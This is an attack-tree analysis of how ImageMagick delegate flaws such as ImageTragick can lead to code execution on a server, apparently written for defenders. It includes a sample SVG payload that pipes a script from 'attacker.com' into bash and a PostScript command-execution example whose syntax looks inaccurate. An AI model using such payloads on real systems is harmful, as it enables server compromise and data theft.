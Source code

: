 ## Deep Analysis of ImageMagick Attack Tree Path: Execute Arbitrary Code on Server

This analysis delves into the provided attack tree path targeting an application using ImageMagick, focusing on the critical goal of achieving arbitrary code execution on the server. We will dissect each attack vector, highlighting the technical details, potential impact, and mitigation strategies.

**Overall Goal: Execute Arbitrary Code on Server (CRITICAL NODE)**

Achieving this goal represents a complete compromise of the server hosting the web application. An attacker with this level of access can:

* **Steal sensitive data:** Access databases, configuration files, user credentials, and other confidential information.
* **Modify data:** Alter database records, deface the website, and manipulate application functionality.
* **Install malware:** Deploy backdoors, ransomware, or other malicious software.
* **Disrupt service:** Launch denial-of-service attacks or completely shut down the application.
* **Pivot to internal network:** Use the compromised server as a stepping stone to attack other systems within the network.

This is the most severe outcome of a successful attack and requires immediate and comprehensive mitigation.

**Attack Vector 1: Exploit Delegate Vulnerability (CRITICAL NODE)**

This attack vector leverages vulnerabilities within the external programs (delegates) that ImageMagick utilizes to handle specific file formats.

* **Likelihood:** Medium - While known delegate vulnerabilities exist, successfully exploiting them requires specific conditions and a well-crafted payload.
* **Impact:** Critical - Successful exploitation leads directly to arbitrary code execution.
* **Effort:** Medium - Requires knowledge of delegate vulnerabilities and the ability to craft malicious image files.
* **Skill Level:** High - Demands understanding of image file formats, delegate interactions, and exploitation techniques.
* **Detection Difficulty:** Medium - Can be detected through monitoring ImageMagick's delegate calls and analyzing processed image files for suspicious patterns.

**Breakdown:**

* **Identify Vulnerable Delegate (e.g., Ghostscript):**
    * **Technical Details:** ImageMagick relies on external programs like Ghostscript (for PostScript, EPS, PDF), Inkscape (for SVG), and others. These delegates are invoked by ImageMagick when processing specific file types. Vulnerabilities in these delegates, often related to parsing complex file structures or handling specific commands, can be exploited.
    * **Attacker Actions:** The attacker researches known Common Vulnerabilities and Exposures (CVEs) associated with ImageMagick delegates, particularly focusing on the versions used by the target application. They might also analyze the application's ImageMagick configuration (e.g., `delegates.xml`) to identify available delegates.
    * **Example:**  The infamous "ImageTragick" vulnerability (CVE-2016-3714) exploited flaws in how ImageMagick handled certain image formats and delegate interactions, allowing for command injection. Specifically, it targeted the `ephemeral:` and `url:` coders.

* **Embed Malicious Payload in Image (e.g., EPS, SVG):**
    * **Technical Details:** The attacker crafts a malicious image file that, when processed by the vulnerable delegate, will execute arbitrary commands. This often involves embedding shell commands or code within the image's data structure.
    * **Attacker Actions:** For EPS files, this might involve embedding PostScript commands that execute system commands. For SVG files, it could involve using `<script>` tags or referencing external resources with malicious payloads.
    * **Example (EPS):** A malicious EPS file might contain PostScript code like `%!PS exec("/bin/bash -c 'whoami > /tmp/pwned'")`. When Ghostscript processes this, it will execute the `whoami` command.
    * **Example (SVG):** A malicious SVG could include `<image xlink:href="https://attacker.com/malicious.sh|bash" />`. If ImageMagick's configuration allows fetching remote resources, it could download and execute the script.
